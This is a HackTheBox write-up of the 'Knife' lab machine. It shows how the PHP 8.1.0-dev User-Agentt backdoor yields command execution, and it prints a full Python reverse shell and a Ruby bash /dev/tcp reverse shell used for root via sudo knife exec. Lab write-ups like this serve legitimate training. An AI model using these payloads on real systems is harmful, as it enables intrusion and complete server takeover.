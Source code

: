```yaml
---
title: Knife - HackTheBox
published: true
---
```


![](assets/img/knife-htb/logo.png)

**Hey guys.** In this blogpost we are going to pwn **Knife** from [HackTheBox](https://www.hackthebox.eu).

Knife is an easy rated linux box. We exploit a backdoored version of php to get user, and then execute a ruby script via knife to get root on the box.

With that said, let us begin.

# [](#header-1)SCANNING :

```
┌──(root💀nehal)-[~]
└─# nmap -sC -sV 10.129.111.24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 03:41 IST
Nmap scan report for 10.129.111.24
Host is up (3.8s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.10 seconds
```

We have 2 services here : **OpenSSH 8.2p1** SSH service on port 22 and **Apache httpd 2.4.41** web service on port 80.

Now if you want, you can do a full port scan. Since I found nothing in it, I am skipping it.

Let us move on to enumeration.

# [](#header-2)ENUMERATION : 

As we can not do much with SSH, let us start with the web first.

By going to the IP via the browser, we get the below page :

![](assets/img/knife-htb/webite-HomePage.png)

It looks just like a static page with no links in it. I tried to do some directory brute-forcing. No luck there.

But when we observe the response headers from the server, we do get an interesting thing.

![](assets/img/knife-htb/php-HeaderInfo.png)

As we can see from `X-Powered-By : PHP/8.1.0-dev` header, the **PHP** version being used here is **8.1.0-dev**. This version of **PHP** was implanted with a backdoor recently. When this backdoor is present on a server, an attacker can execute arbitrary code by sending a User-Agentt header. You can learn more about it [here](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor).

In the link above, the guy has used **PHP** function `var_dump()` with the `User-Agentt` header to trigger the backdoor. Let us see if that works for us.

![](assets/img/knife-htb/backdoor-PoC.png)

We do not see any variable dumping. However, we do see `int(54289)` which might be a good thing for us.

Now, let us go malicious and try functions like `system()` to get RCE on the box.

![](assets/img/knife-htb/RCE-PoC.png)

As you can see, when I provided `system()` function with arguments `id && whoami` in the `User-Agentt` header, the command gets run on the server and we get to see the output. So we have RCE here.

Time to get a shell.

# [](#header-1)EXPLOITATION :

After a little enumeration of the box with the RCE, I figured out the box has python3 installed. So we can just use it to get a reverse shell.

### Reverse shell code :
```py
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("<YOUR IP>", <YOUR PORT>))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

p = subprocess.call(["/bin/bash","-i"]);
```

You can simply make it a one-liner via the `-c` option of python3.

`python3 -c <YOUR CODE IN ONE LINE>`

Set up a listener on your specified port.

![](assets/img/knife-htb/shell.png)

```
┌──(root💀nehal)-[~]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.29] from (UNKNOWN) [10.129.111.24] 42698
james@knife:/$ 
```

And we have shell as user `James`. You can read the user flag now.

# [](#header-1)PRIVILEGE ESCALATION : 

James can run a particular command with sudo as root.

```
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:/$
```

If you look for `--help` option for `knife`, you will find a link to it's manual ([here](https://docs-archive.chef.io/release/12-9/knife_exec.html) it is).

If you look well enough, you will find that you can run any ruby script with the `exec` command of `knife`. So we can use this to escalate our privileges.

`knife exec /path/to/script_file`

```
james@knife:~$ cat script.rb 
#!/usr/bin/env ruby

exec "/bin/bash -c '/bin/bash >& /dev/tcp/10.10.16.29/9001 0>&1'"
james@knife:~$ 
```

Here, I have created a ruby script where I used the `exec` function of ruby to run system commands on the box. In this case, it is a reverse shell connecting back to our machine. If you want, you can directly run the ruby code with the `-E` option of `knife exec`, so you do not have to create a script file.

Set up a listener on the specified port and run this script.

```
james@knife:~$ sudo /usr/bin/knife exec /home/james/script.rb
```

```
┌──(root💀nehal)-[~/Documents/htb/knife]
└─# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.29] from (UNKNOWN) [10.129.111.24] 46308
python3 -c "import pty;pty.spawn('/bin/bash')"
root@knife:/home/james# id && hostname && echo "Pwned by Nehal"
id && hostname && echo "Pwned by Nehal"
uid=0(root) gid=0(root) groups=0(root)
knife
Pwned by Nehal
root@knife:/home/james# 
```

And we are root now. You can read the root flag too.

So that was **Knife** from **HackTheBox**.
**Thanks** for reading this far. Hope you liked it.
I will see you in the next writeup. **PEACE**

